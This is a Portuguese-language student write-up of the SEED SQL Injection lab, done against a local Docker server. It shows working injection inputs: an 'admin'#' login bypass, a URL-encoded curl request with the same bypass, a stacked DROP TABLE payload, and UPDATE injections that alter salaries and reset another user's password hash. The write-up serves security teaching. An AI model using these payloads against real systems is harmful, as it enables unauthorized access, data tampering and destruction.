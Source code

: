 # SQL Injection Attack

## Setup

Numa fase inicial adicionamos uma nova entrada nos hosts conhecidos pela máquina virtual, executamos os containers fornecidos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios.

```bash
sudo nano etc/hosts     # colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ docksh f3             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Selecionar o schema
```

## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice". Como a sintaxe SQL já é bem conhecida facilmente chegamos ao comando correcto para executar a operação:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtivemos assim todos os dados pessoais do utilizador:

![Task 1](../Images/lab8task1.png)

###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e também ao ficheiro `unsafe_home.php`. Aí pudemos constatar que a query utilizada é frágil pois o servidor cria o comando dinamicamente com as strings não sanitizadas do input do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```

Como o campo password é cifrado é vantajoso usurpar o funcionamento da pesquisa usando somente o campo do username.<br>
Ao usarmos o input "admin'#", garantimos o acesso privilegiado, pois todo a verificação da palavra chave torna-se irrelevante uma vez que é comentada. Assim, o código executado do lado do servidor passou a ser o seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Tal como esperado, conseguimos fazer login com a conta do administrador e assim obter todos os dados relativos ao resto dos utilizadores da aplicação:

![Task 2 a](../Images/lab8task2a.png)

#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET. Um exemplo de um pedido a este servidor numa linha de comandos seria:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

Com o mesmo input da secção anterior, desta vez cifrado usando as convenções (%27 = ' e %23 = #), obtivemos o seguinte comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos com isto o código HTML de toda a página que continha os dados pessoais dos utilizadores

![Task 2 b](../Images/lab8task2b.png)

#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que fizesse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto a operação não chegou a ser executada devido a um erro na base de dados:

![Task 2 c](../Images/lab8task2c.png)

Segundo [esta fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, pelo que não foi possível concluir o ataque.

### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema (por exemplo username = Alice, password = 11), tivemos acesso a uma página para editar os dados pessoais. Esta é gerida a partir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query também formada dinamicamente com as strings não sanitizadas do input do utilizador. <br>
O nosso ataque consistui na utilização do campo "phone number". Usando a mesma técnica dos tópicos anteriores obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
933667378',Salary='9999999
```

Note-se que a plica (') antes do valor do salário é importante para completar a última instrução antes do WHERE. No final o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

Tal como previsto, a variável salário foi também alterada para o valor escolhido:

![Task 3 a](../Images/lab8task3a.png)

#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica parecida com a anterior. No entanto criamos uma WHERE clause diferente e comentamos a que estava no sistema para não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o valor do salário do Boby antes e depois do ataque:

![Task 3 b](../Images/lab8task3b.png)

#### Task 3.3 - Modify other people’ password

Para alterar a password de outro utilizador usamos uma técnica parecida com a anterior. Desta vez o valor a modificar foi cifrado antes com criptografia SHA1. Por exemplo, para a nova palavra-passe `penguin`, o hash é `73335c221018b95c013ff3f074bd9e8550e8d48e`.

```sql
912345678', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'# WHERE ID=$id;
```

Com a nova palavra passe alterada, conseguimos entrar na conta do Boby:

![Task 3 c](../Images/lab8task3c.png)